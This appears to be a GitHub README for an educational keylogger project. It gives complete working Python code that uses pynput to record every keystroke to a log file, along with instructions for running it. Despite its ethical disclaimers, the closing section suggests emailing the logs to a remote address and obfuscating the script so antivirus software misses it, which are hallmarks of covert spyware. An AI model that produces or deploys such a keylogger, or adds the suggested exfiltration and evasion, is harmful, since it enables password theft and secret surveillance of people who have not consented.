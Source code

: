 # PRODIGY_CS_04
Simple Keylogger

Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. 

Note: Ethical considerations and permissions are crucial for projects involving keyloggers.

* Ethical Considerations: Only use keyloggers for ethical purposes, such as testing your own systems or with explicit permission. Unauthorized use is illegal and unethical.

* Dependencies: We'll use the pynput library to capture keystrokes.


* Basic Workflow:

Capture keystrokes.
Record the keystrokes in a log file.


## Step-by-Step Implementation

### 1. Set Up Your Environment
First, make sure you have Python installed. You'll also need to install the pynput library. You can do this using pip:

pip install pynput

### 2. Import Necessary Libraries

from pynput.keyboard import Key, Listener
import logging

### 3. Set Up Logging

log_dir = ""  # You can specify a directory if needed
logging.basicConfig(filename=(log_dir + "key_log.txt"),
                    level=logging.DEBUG, format='%(asctime)s: %(message)s')

### 4. Define the Callback Function to Capture Keystrokes

def on_press(key):
    try:
        logging.info(str(key))
    except AttributeError:
        logging.info('Special key {0} pressed'.format(key))


### 5. Set Up and Start the Listener

with Listener(on_press=on_press) as listener:
    listener.join()


# Explanation of the Code

1. Imports: We import the necessary modules from pynput to listen to keyboard events and logging for recording the keystrokes.
 
2. Logging Configuration: We set up logging to record keystrokes to a file named key_log.txt.

3. Callback Function (on_press): This function is called every time a key is pressed. It logs the key pressed. If the key has a special representation (like Key.space), it logs a more readable message.

4. Listener: This is the main part of the program that listens for key presses and calls the on_press function whenever a key is pressed.

# Running the Keylogger

1. Save the script to a file, e.g., keylogger.py.

2. Run the script using Python:

python keylogger.py

# Stopping the Keylogger

To stop the keylogger, you can terminate the script (e.g., using Ctrl+C in the terminal).

## Important Notes

Permissions: Always ensure you have permission to use a keylogger on any system. 

Unauthorized use is illegal.

Security: Store and handle logged data securely to avoid misuse.

## Ethical Use Cases

Personal Use: Monitor your own computer to track keystrokes for personal analysis.

Parental Control: Monitor children's computer usage with consent and proper guidance.

Testing: Use in a controlled environment to test security software or systems.

## Additional Features (Optional)

Capture Keystroke Timing: Modify the logging format to include timestamps.

Send Logs via Email: Set up a function to periodically send the log file to a specified email address.

Obfuscation: Make the script less detectable by antivirus software (ensure ethical use).
